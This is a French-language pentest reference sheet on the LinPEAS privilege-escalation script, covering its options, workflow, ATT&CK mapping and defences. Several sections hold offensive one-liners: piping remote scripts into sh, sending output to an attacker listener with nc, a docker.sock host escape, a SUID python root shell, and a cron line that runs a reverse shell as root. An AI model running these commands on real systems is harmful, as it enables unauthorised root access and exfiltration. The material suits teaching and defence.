

# LinPeas — Escalade de privilèges Linux

> [!info] **En 1 phrase**
> LinPEAS (Linux Privilege Escalation Awesome Script) est le script d'énumération de référence pour l'escalade de privilèges Linux : il agglomère en un passage tous les checkers classiques et classe les résultats par urgence, en couleur.

---

## Overview

LinPEAS fait partie de la suite **PEASS-ng** (github.com/peass-ng/PEASS-ng, ~19 000 étoiles), écrite par Carlos Polop (HackTricks), qui inclut aussi WinPEAS (Windows). C'est un script **bash unique** — des variantes `linpeas.sh` (par défaut), `linpeas_fat.sh` (tous les checks + apps tierces embarquées en base64) et `linpeas_small.sh` (checks essentiels seulement) — exécuté depuis la cible sans installation.

Le projet publie des **releases rolling** datées (ex. `20251215`). La version de décembre 2025 a ajouté la détection de la vulnérabilité noyau **CVE-2025-38352** (course POSIX CPU timers). Des binaires compilés (`linpeas_linux_amd64`) et la prise en charge macOS (MacPEAS, exécution automatique via `linpeas.sh`) complètent l'offre.

| Fait | Valeur |
|---|---|
| Version | Rolling (ex. 20251215) ; Kali paquet `peass-ng` |
| Licence | GPLv3 |
| Langage | Bash (variantes fat/small, binaire amd64) |
| Auteur | Carlos Polop (peass-ng / HackTricks) |
| Variantes | `linpeas.sh` (défaut), `linpeas_fat.sh`, `linpeas_small.sh` |
| Plateformes | Linux/Unix*/macOS (MacPEAS auto) |
| Sortie | Couleurs (rouge/jaune/vert), parsable en JSON/HTML/PDF |

---

## Concept

LinPEAS fait partie de la suite **PEASS-ng** (carlospolop), qui inclut aussi WinPEAS pour Windows. C'est un script bash unique qui lance en une exécution des dizaines de vérifications ciblant les faiblesses classiques d'escalade de privilèges Linux : **SUID/SGID**, **sudo** (via `sudo -l` et les binaires GTFOBins), **capabilités** de fichiers, **cron** et jobs planifiés, fichiers/dossiers **writable** dans des chemins critiques, historiques et fichiers contenant des **identifiants** (config, `id_rsa`, `.bash_history`, clés de déploiement), **conteneurs/Docker** (sortie de conteneur, images), et faiblesses de noyau.

Son vrai plus : la **sortie colorée** (rouge = fort potentiel, jaune = à creuser, vert = info) qui permet au pentester de scanner le résultat en quelques secondes et de prioriser les pistes. Il s'exécute depuis la cible (upload + exécution) et se combine parfaitement avec `pspy` (détection de cron), `gtfobins` (exploitation) et une vérification manuelle.



---

## Concepts fondamentaux

### Les catégories de checks

LinPEAS organise ses contrôles en catégories (utilisables avec `-o`) :
`system_information`, `container`, `cloud`, `procs_crons_timers_srvcs_sockets`, `network_information`, `users_information`, `software_information`, `interesting_files`, `api_keys_regex`.

### Le principe de priorisation

- **Rouge** : forte probabilité d'escalade (SUID inhabituel, `NOPASSWD`, fichier writable dans `/etc`, credentials).
- **Jaune** : à creuser (configs, users, versions vulnérables).
- **Vert** : information (version du kernel, réseau).
- **Cyan/blanc** : contexte.

### Détection de vulnérabilités noyau

LinPEAS croise la version du noyau avec des CVE connues (ex. CVE-2025-38352 ajoutée fin 2025) et combine l'état `CONFIG_POSIX_CPU_TIMERS_TASK_WORK` avec les infos de build pour estimer si un PoC public peut marcher. Toujours confirmer manuellement sur kernel.org/exploit-db.

### Variantes du script

| Variante | Contenu |
|---|---|
| `linpeas.sh` | Tous les checks, seul `linux exploit suggester` embarqué (défaut) |
| `linpeas_fat.sh` | Tous les checks + applications tierces en base64 embarquées |
| `linpeas_small.sh` | Checks les plus importants uniquement (plus petit, plus rapide) |

On peut aussi **builder son propre linpeas** en sélectionnant les checks souhaités (taille réduite, furtivité).

---

## Installation

Aucune installation requise : télécharger et exécuter.

```bash
# Depuis ta machine d'attaque
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh -o linpeas.sh
chmod +x linpeas.sh

# Kali : paquet peass-ng (scripts dans /usr/share/peass/)
sudo apt install -y peass-ng

# Exécution directe depuis une URL (sans upload)
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh

# Binaire compilé (amd64)
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas_linux_amd64
chmod +x linpeas_linux_amd64 && ./linpeas_linux_amd64
```

**Transfert sans curl** (seulement wget, ou raw TCP) :

```bash
# Hôte (serveur web)
sudo python3 -m http.server 80
# Cible
curl 10.10.10.10/linpeas.sh | sh

# Sans curl ni wget : serveur via nc
sudo nc -q 5 -lvnp 80 < linpeas.sh   # Hôte
cat < /dev/tcp/10.10.10.10/80 | sh   # Cible
```

---

## Configuration

LinPEAS est sans fichier de configuration : tout se fait par options en ligne de commande. Le script décide lui-même de ce qu'il peut lire selon les privilèges courants (UID, capacité de `sudo -l`...).

- **`-P <motdepasse>`** : fournit un mot de passe pour exécuter `sudo -l` (avec le vrai mot de passe) et pour bruteforcer d'autres comptes via `su` (top 1000 mots de passe).
- **`-o <cat1,cat2>`** : ne lancer que certaines catégories de checks (lisible et réutilisable).
- **`-r`** : active les regex (recherches avancées) — peut prendre des minutes, voire des heures sur les gros systèmes.

---

## Architecture interne

LinPEAS est un gros script bash auto-contenu qui procède par blocs de checks séquentiels :

```text
linpeas.sh
   ├── Banner + détection plateforme (Linux/macOS -> MacPEAS)
   ├── system_information    (OS, kernel, date, PATH, defenses...)
   ├── container / cloud     (docker, k8s, cloud metadata...)
   ├── procs_crons_timers_srvcs_sockets
   ├── network_information   (ports, interfaces, DNS...)
   ├── users_information     (uid 0, groupes, sudo -l, su bruteforce)
   ├── software_information  (versions + CVE connues)
   ├── interesting_files     (SUID, capabilities, writable, creds)
   └── api_keys_regex        (regex de secrets dans les fichiers)
```

Chaque bloc écrit dans un buffer de sortie avec un code couleur ; à la fin, le script imprime le rapport complet. La sortie peut être redirigée vers un fichier puis relue en couleur :

```bash
./linpeas.sh -a > /dev/shm/linpeas.txt
less -r /dev/shm/linpeas.txt   # couleurs conservées
```

Des **parsers** (répertoire `parsers/` du dépôt) convertissent la sortie en JSON, HTML et PDF pour les rapports.

---

## Commandes

```bash
# Exécution complète (tous les checks)
./linpeas.sh -a

# Mode superfast (checks rapides, pour gagner du temps)
./linpeas.sh -s

# Extra : énumération supplémentaire (processus, réseau...)
./linpeas.sh -e

# Mot de passe fourni pour sudo -l / brute-force su
./linpeas.sh -P 'motdepasse'

# Seulement certaines catégories
./linpeas.sh -o system_information,users_information,interesting_files

# Sauvegarder la sortie
./linpeas.sh -a | tee /tmp/linpeas.log
```

## Options et flags

| Option | Effet |
|---|---|
| `-a` | Exécute tous les contrôles (répond « oui » aux questions) |
| `-s` | Stealth & faster : saute les checks longs |
| `-e` | Extra : énumération supplémentaire (processus, réseau) |
| `-o <cat>` | N'exécute que les catégories listées (séparées par des virgules) |
| `-r` | Active les regex (peut être très long) |
| `-P <mdp>` | Mot de passe pour `sudo -l` et bruteforce `su` |
| `-t` | Scan réseau automatique + checks de connectivité (écrit des fichiers) |
| `-d <IP/masque>` | Découverte de hosts (fping/ping) |
| `-p <port(s)>` | (avec `-d`) Scan de ports TCP ouverts via nc |
| `-i <IP>` | Scan d'une IP via nc (top 1000 ports par défaut) |
| `-F <locIP:locP:remIP:remP>` | Port forwarding local → distant |
| `-D` | Mode debug |

> [!note] À vérifier
> Dans les anciennes versions de LinPEAS, `-d` correspondait à un mode « deep » (énumération profonde) ; dans les versions PEASS-ng récentes, `-d` est réservé à la découverte réseau. Toujours vérifier avec `./linpeas.sh -h` sur la version installée.

---

## Exemples pratiques

### Exécution complète avec sortie en fichier
```bash
./linpeas.sh -a > /dev/shm/linpeas.txt
less -r /dev/shm/linpeas.txt
```

### Exécution depuis la mémoire, sortie renvoyée à l'attaquant
```bash
# Hôte : écoute
nc -lvnp 9002 | tee linpeas.out
# Cible : télécharge, exécute et renvoie
curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002
```

### Ciblage d'une catégorie (ex. users)
```bash
./linpeas.sh -o users_information
```

---

## Workflow complet (scénario pas à pas)

1. **Upload** sur la cible via ta session (base64, wget, ou la session C2) :
   ```bash
   # depuis ta machine
   base64 -w0 linpeas.sh
   # sur la cible
   echo "<base64>" | base64 -d > /tmp/linpeas.sh && chmod +x /tmp/linpeas.sh
   ```
2. **Exécuter et conserver le résultat** :
   ```bash
   ./linpeas.sh -a | tee /tmp/linpeas.log
   ```
3. **Lire la couleur** — les lignes rouges indiquent les pistes fortes : SUID inhabituel, sudo `NOPASSWD`, fichiers writable dans `/etc`, credentials.
4. **Vérifier manuellement chaque piste rouge** — `ls -la`, `sudo -l`, `find / -perm -4000`, comparer avec **GTFOBins** pour trouver l'exploit du binaire sudo/SUID.
5. **Confirmer les pistes temps** — lancer `pspy` en parallèle pour observer les cron exécutés (l'heure/le script writable) si LinPEAS en signale.
6. **Exploiter** et documenter : commande d'escalade, binaire abusé, impact.

---

## Scénarios avancés

### Scénario 1 : SUID + GTFOBins
LinPEAS liste un binaire SUID (`-rwsr-xr-x /usr/bin/python3`). Croiser avec gtfobins.github.io : exécuter
```bash
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```
Escalade immédiate vers root, le tout documenté dans le rapport.

### Scénario 2 : Conteneur / Docker
LinPEAS détecte un environnement conteneurisé et des sockets Docker exposés. Vérifier `ls -la /var/run/docker.sock` puis abuser :
```bash
docker -H unix:///var/run/docker.sock run -v /:/host -it alpine chroot /host sh
```
Sortie du conteneur → compromission de l'hôte.

### Scénario 3 : Cron writable confirmé par pspy
LinPEAS signale `/etc/cron.d/backup` modifiable en écriture. Lancer `pspy` pour observer le cron réel, puis injecter un reverse shell :
```bash
echo '* * * * * root bash /tmp/rev.sh' >> /etc/cron.d/backup
# /tmp/rev.sh contient un reverse shell -> shell root au prochain tick
```

### Scénario 4 : Abus de capabilities
LinPEAS liste un binaire avec `cap_setuid+ep`. Exploiter via GTFOBins/capabilities :
```bash
# Ex. python3 avec cap_setuid
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

---

## Cybersecurity use cases

### Pentest / Red team
- **Étape post-exploitation systématique** : après un premier accès (www-data, user limité), LinPEAS cartographie les vecteurs d'escalade en une passe.
- **Gain de temps** : la sortie colorée remplace 20 commandes manuelles (`find -perm -4000`, `sudo -l`, `capabilities`, cron...).
- **Vérification croisée** : combinaison avec pspy (cron), GTFOBins (exploitation), exploit-db (CVE noyau).

### CTF
- Le réflexe `linpeas.sh -a` après chaque foothold résout la majorité des boxes.

### SOC / Blue team (usage défensif)
- **Audit interne** : exécuter LinPEAS sur des machines de test pour vérifier l'hygiène de configuration (SUID, capabilities, permissions).
- **Durcissement** : les résultats alimentent les recommandations de hardening (retrait de SUID, `nosuid`, permissions strictes).

---

## MITRE ATT&CK

| Technique | ID | Rôle de LinPEAS |
|---|---|---|
| Exploitation for Privilege Escalation | T1068 | Corrélation des CVE noyau avec la version détectée |
| Abuse Elevation Control Mechanism: Setuid and Setgid | T1548.001 | Détection des binaires SUID/SGID abusables |
| Abuse Elevation Control Mechanism: Sudo and Sudo Caching | T1548.003 | Analyse de `sudo -l` (NOPASSWD, binaires) |
| Abuse Elevation Control Mechanism: Web Shell | T1505.003 | Repérage des fichiers/scripts web writable |
| Exploitation for Privilege Escalation: SSH Hijacking | T1548.006 | Détection de clés SSH et credentials dans les fichiers |
| Scheduled Task/Job: Cron | T1053.003 | Signalement des jobs cron et fichiers associés |

> [!note] À vérifier
> LinPEAS n'est pas référencé comme logiciel ATT&CK ; le tableau décrit les techniques d'escalade que ses checks permettent de découvrir.

---

## Defensive Security

| Signe | Défense |
|---|---|
| Script d'énumération téléchargé/exécuté | Monitoring de l'exécution de scripts (EDR), logs de process, hash-basing |
| Volume élevé de commandes systèmes (`find`, `cat /etc/*`) | Auditing des commandes, supervision des sessions |
| Binarios SUID non essentiels | Retirer les SUID inutiles, utilisateur dédié, filesystem `nosuid` |
| Cron writable / fichiers de config modifiables | Permissions strictes, vérification d'intégrité (AIDE), conteneurisation |
| Capabilités excessives sur les binaires | Retirer les capabilities, minimisation des droits |
| Sources d'information cloud (metadata, credentials) exposées | Réduire les rôles, bloquer l'accès metadata, surveiller les requêtes 169.254.169.254 |

---

## Automatisation

### Exécution et archivage systématique
```bash
HOST=$(hostname); DATE=$(date +%Y%m%d)
./linpeas.sh -a > "/tmp/linpeas_${HOST}_${DATE}.txt"
scp "/tmp/linpeas_${HOST}_${DATE}.txt" kali@10.10.14.20:/home/kali/rapports/
```

### Boucle sur plusieurs catégories
```bash
for cat in system_information users_information interesting_files; do
  ./linpeas.sh -o "$cat" > "/tmp/linpeas_$cat.txt"
done
```

### Intégration dans un script post-exploitation
```bash
# Après un reverse shell, récupérer et lancer LinPEAS en une ligne
curl -sL https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh | nc 10.10.14.20 9002
```

---

## Output et parsing

- **Sortie couleur** : relue avec `less -r` pour conserver les couleurs.
- **Fichier texte** : redirection `>` ou `-a > fichier`.
- **JSON/HTML/PDF** : les **parsers** du dépôt (`parsers/`) transforment la sortie brute :
  ```bash
  # parsers/ : converter linpeas output en HTML/PDF/JSON
  # ex. "linpeas2html.py" (selon les versions)
  ```

```text
LinPEAS
...
╔══════════╣ Possible Privilege Escalation
╔══════════╣ SUID
-rwsr-xr-x root root /usr/bin/python3
╔══════════╣ Sudo -l
(root) NOPASSWD: /usr/bin/vim
```

> [!note] À vérifier
> Le nom exact des scripts du répertoire `parsers/` varie selon les versions ; vérifier leur contenu avant usage.

---

## Intégrations

| Outil | Intégration |
|---|---|
| WinPEAS | Même suite, pour Windows (voir fiche) |
| pspy | Observe les cron/processus en temps réel pour confirmer les pistes |
| GTFOBins | Donne l'exploit d'un binaire SUID/sudo abusable |
| exploit-db / SearchSploit | PoC des CVE noyau signalées par LinPEAS |
| HackTricks | Checklist Linux PrivEsc associée au script |
| parsers PEASS | Sortie en JSON/HTML/PDF pour les rapports |

---

## Alternatives

| Outil | Différence avec LinPEAS |
|---|---|
| LinEnum | Plus simple, sortie moins riche, pas de couleurs |
| Linux Smart Enumeration | Interface interactive (lse), checks « smart » |
| linux-exploit-suggester | Spécialisé CVE noyau uniquement |
| pspy | Processus/cron en temps réel, pas d'énumération statique |
| Commands manuelles | `find -perm -4000`, `sudo -l`, `getcap -r /`... (ciblées) |

---

## Performance

- **`-s` (superfast)** : quelques secondes à une minute, idéal en premier passage.
- **`-a` (tous)** : de quelques dizaines de secondes à plusieurs minutes selon le système.
- **`-r` (regex)** : minutes à heures — réservé aux analyses longues.
- **`linpeas_small.sh`** : variante allégée pour les cibles lentes ou sous surveillance.
- Sur les gros filesystems, la recherche de fichiers intéressants domine le temps d'exécution.

> [!note] À vérifier
> Les temps d'exécution dépendent fortement du système (disque, nombre de fichiers) ; les ordres de grandeur ci-dessus sont issus de l'usage courant.

---

## Troubleshooting

| Problème | Cause probable | Solution |
|---|---|---|
| Sortie illisible (codes couleurs) | `less` sans `-r` | `less -r fichier` |
| Checks manquants (ports, CVE) | Pas les privilèges requis | Relancer avec `-e`, ou avec `-P` et un compte privilégié |
| `sh: curl: not found` | curl absent de la cible | Utiliser wget, `/dev/tcp` ou base64 |
| Script refusé (execute bit) | `chmod +x` non fait | `bash linpeas.sh` |
| Analyse très lente | `-a` ou `-r` sur gros système | Passer `-s` ou `linpeas_small.sh` |
| `sudo: no tty present` | Pas de TTY sur la session | `script /dev/null -c bash` avant d'exécuter |

---

## Sécurité de l'outil

- **Licence** : GPLv3, open source, code inspectable.
- **Confidentialité** : le script tourne en local ; la sortie (informations système, users, chemins) est renvoyée à l'attaquant — en usage défensif, garder ces rapports hors de tout dépôt partagé.
- **Avertissement officiel** : à utiliser uniquement dans un cadre autorisé ou pédagogique.
- **Intégrité** : télécharger depuis les releases GitHub officielles (les URLs `carlospolop/...` sont redirigées vers `peass-ng/...`).

---

## Limitations

- **Faux positifs** : un candidat rouge n'est pas toujours exploitable ; confirmation manuelle obligatoire.
- **Faux négatifs** : il rate des vecteurs (scripts custom, logique applicative métier).
- **Dépend du contexte de privilèges** : sans root ni `-P`, certains checks (lecture de fichiers sensibles, `sudo -l` réel) sont incomplets.
- **Bruyant** : le mode complet génère beaucoup de commandes systèmes détectables par un EDR.
- **Pas un exploitant** : il n'exploite rien ; il liste des pistes.

---

## Cheatsheet

```bash
# Télécharger + exécuter (one-liner)
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh

# Exécution complète
./linpeas.sh -a

# Rapide
./linpeas.sh -s

# Avec mot de passe pour sudo -l
./linpeas.sh -P 'motdepasse'

# Sortie en fichier, relecture colorée
./linpeas.sh -a > out.txt
less -r out.txt

# Catégories ciblées
./linpeas.sh -o interesting_files

# Binaire amd64
wget .../linpeas_linux_amd64 && ./linpeas_linux_amd64
```

## Quick reference

| Besoin | Commande |
|---|---|
| Tous les checks | `./linpeas.sh -a` |
| Rapide / furtif | `./linpeas.sh -s` |
| Extra (proc/réseau) | `./linpeas.sh -e` |
| sudo -l avec mot de passe | `./linpeas.sh -P <mdp>` |
| Scan réseau (hosts) | `./linpeas.sh -d 10.10.10.0/24` |
| Scan ports (avec -d) | `./linpeas.sh -d 10.10.10.0/24 -p 22,80` |
| Scan IP unique | `./linpeas.sh -i 10.10.10.20` |
| Port forwarding | `./linpeas.sh -F 127.0.0.1:8080:10.10.10.20:80` |

---

## Détection & Défense

| Signe | Défense |
|---|---|
| Script d'énumération téléchargé/exécuté | Monitoring de l'exécution de scripts (EDR), logs de process, hash-basing |
| Volume élevé de commandes systèmes (`find`, `cat /etc/*`) | Auditing des commandes, supervision des sessions |
| Binarios SUID non essentiels | Retirer les SUID inutiles, utilisateur dédié, filesystem `nosuid` |
| Cron writable / fichiers de config modifiables | Permissions strictes, vérification d'intégrité (AIDE), conteneurisation |
| Capabilités excessives sur les binaires | Retirer les capabilities, minimisation des droits |

---

## Tips & Pièges

> [!tip] **Tips**
> - **Sauvegarde toujours la sortie** (`tee`) : relire le rapport calmement et le croiser avec `pspy` révèle plus que la sortie en direct.
> - Priorise le **rouge**, mais ne néglige pas le jaune : c'est souvent là que se cachent les pivots longs mais solides.
> - Exécute d'abord `-s` (rapide) pour un premier plan d'action, puis `-d` en fond si tu as le temps — l'ordre inverse fait perdre du temps.
> - `less -r` sur un fichier de sortie garde les couleurs : lis le rapport à tête reposée plutôt qu'en direct.
> - Sur une cible sans outils (`curl`/`wget`), passe par `/dev/tcp` ou le base64 : `cat < /dev/tcp/<IP>/80 | sh`.

> [!warning] **Pièges**
> - LinPEAS est un **agrégateur**, pas un oracle : il rate des choses et remonte des faux positifs — chaque piste doit être confirmée manuellement.
> - Le mode `-r` (regex) est **très lent** sur les gros filesystems et très bruyant : à éviter sur une cible sous surveillance.
> - La plupart des checks ne nécessitent pas root, mais certains (`-e`, lecture de fichiers sensibles) **échouent sans privilèges** : une sortie « propre » ne signifie pas un système sain.
> - Attention à l'historique : `-d` désigne la découverte réseau dans les versions récentes, pas le mode « deep » des anciennes versions.

---

## References

### Official
> [!info] **Sources**
> - [GitHub PEASS-ng](https://github.com/peass-ng/PEASS-ng)
> - [LinPEAS README](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)
> - [Releases PEASS-ng](https://github.com/peass-ng/PEASS-ng/releases)
> - [Kali — paquet peass-ng](https://www.kali.org/tools/peass-ng/)

### Security & Community
> [!info] **Ressources complémentaires**
> - [HackTricks — Linux PrivEsc](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html)
> - [GTFOBins (binaires abusables)](https://gtfobins.github.io/)
> - [MITRE ATT&CK — T1548 Abuse Elevation Control Mechanism](https://attack.mitre.org/techniques/T1548/)

---

**Liens :** [[Tools| Outils]] · [[Techniques/Privilege Escalation Linux|Privilege Escalation Linux]] · [[Techniques/Privilege Escalation Windows|Privilege Escalation Windows]] · [[Outils/Outil - Metasploit|Metasploit]]
